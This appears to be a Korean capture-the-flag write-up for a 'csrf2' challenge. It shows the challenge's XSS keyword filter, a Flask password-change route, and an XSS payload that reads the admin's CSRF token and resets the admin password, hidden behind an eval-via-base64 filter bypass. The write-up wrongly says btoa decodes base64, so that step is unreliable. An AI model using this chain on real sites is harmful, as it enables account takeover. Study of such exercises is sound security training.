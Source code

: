 # csrf2
- 난이도 : 중
- site : 금융보안원
## 풀이
```py

def xsscheck(content):
    content = content.lower()
    vulns = ["javascript", "frame", "object", "on", "data", "base","\\u", "embed", "&#", "alert","fetch","XMLHttpRequest","eval","constructor"]
    vulns += list("'\"")
    for char in vulns:
        if char in content:
            return True

    return False
```
백엔드 로직 확인
```py
@app.route("/changepw", methods=["GET"])
def changepw():
    if "userid" not in flask.request.args or "userpw" not in flask.request.args:
        flask.session["csrf_token"] = binascii.hexlify(os.urandom(16)).decode()
        return flask.render_template("changepw.html", msg="false", csrf_token=flask.session["csrf_token"])
    else:
        if "csrf_token" not in flask.request.args:
            return flask.render_template("changepw.html", msg="please input csrf token")

        
        if flask.request.args["csrf_token"] != flask.session["csrf_token"]:
            return flask.render_template("changepw.html", msg="csrf token not match!")

        userid = flask.request.args["userid"]        
        userpw = flask.request.args["userpw"]
                
        if userid == "admin":
            if flask.request.remote_addr != socket.gethostbyname("arang_client"):
                return flask.render_template("changepw.html", msg="admin password is only changed at internal network")
        
        if userid in ids:
            ids[userid] = userpw
            return flask.redirect(flask.url_for("login"))
        else:
            return flask.render_template("changepw.html", msg="user doesn't exist")

```
첫 접속 시 /changepw에 해당 계정에 대한 csrf_token을 hidden으로 생성, 그 후 비밀번호 변경 시 파라미터에 해당 csrf_token을 넣어 줘야함.

그럼 관리자가 특정 사이트를 접속 했을 때 관리자의 csfr_token을 읽고 그대로 파리미터에 넣으면 관리자 비밀번호를 임의의 비밀번호로 바꿀 수 있음. 

```js
fetch(`/changepw`)
  .then(response => response.text())
  .then(html => {
    // HTML에서 CSRF 토큰 파싱
    const parser = new DOMParser();
    const doc = parser.parseFromString(html, `text/html`);
    const csrfToken = doc.querySelector(`input[name="csrf_token"]`).value;

    // CSRF 토큰을 포함한 새로운 GET 요청
    const userid = `admin`;
    const userpw = `11`;
    const url = `/changepw?userid=${userid}&userpw=${userpw}&csrf_token=${csrfToken}`;
      console.log(url)
    return fetch(url);
  })
```
이러한 payload를 짜서 XSS에 담으면 관리자가 읽고 자기 csrf 토큰을 인자에 넣어 비밀번호를 11로 바꿀 것이다.

그럼 이 payload를 어떻게 우회해서 심을 것인가
```html
<script>
    self[`ev`+`al`](btoa(`base64로인코딩된payload`));
</script>
```
이렇게 하게 되면 base64로 인코딩된 payload가 btoa에 의해 다시 정상 자바스크립트로 풀리게 되고 그걸 eval이 실행해 해당 payload가 실행되게 된다.
